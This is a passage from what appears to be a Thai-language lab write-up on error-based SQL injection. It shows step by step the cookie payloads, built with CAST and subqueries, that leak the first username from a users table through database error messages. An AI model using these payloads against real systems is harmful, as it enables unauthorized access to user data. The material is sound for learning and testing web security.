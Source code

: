 **เพิ่ม comment เพื่อตัดส่วนที่เหลือทิ้ง:**
```
TrackingId=ogAZZfxtOKUELbuJ'--
```
→ ส่ง request แล้วยืนยันว่าไม่มี error แล้ว = query ถูกต้องแล้ว

## ขั้นตอนที่ 7-8: ทดสอบ CAST() Function

**เพิ่ม SELECT subquery และใช้ CAST():**
```
TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
```

**ผลลัพธ์:** เกิด error ใหม่บอกว่า AND condition ต้องเป็น boolean expression

## ขั้นตอนที่ 9-10: แก้ไข Boolean Expression

**เพิ่ม comparison operator:**
```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```
→ ส่ง request แล้วยืนยันว่าไม่มี error = query ถูกต้อง

## ขั้นตอนที่ 11-12: ลองดึงข้อมูล Username

**แก้ไข SELECT เพื่อดึง username:**
```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```

**ปัญหาที่เกิดขึ้น:**
- เกิด error message เดิม
- Query ถูกตัดทอนเพราะมีข้อจำกัดจำนวนตัวอักษร
- comment characters หายไป

## ขั้นตอนที่ 13-14: ลบค่าเดิมเพื่อประหยัดที่ว่าง

**ลบค่าเดิมของ TrackingId:**
```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

**ผลลัพธ์:** 
- ได้ error message ใหม่จากฐานข้อมูล
- Query ทำงานได้แล้ว แต่ return มากกว่า 1 แถว

## ขั้นตอนที่ 15-16: จำกัดผลลัพธ์เป็น 1 แถว

**เพิ่ม LIMIT 1:**
```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

**ผลลัพธ์สำคัญ:**
```
ERROR: invalid input syntax for type integer: "administrator"
```
🎉 **ได้ username แรกแล้ว = "administrator"**
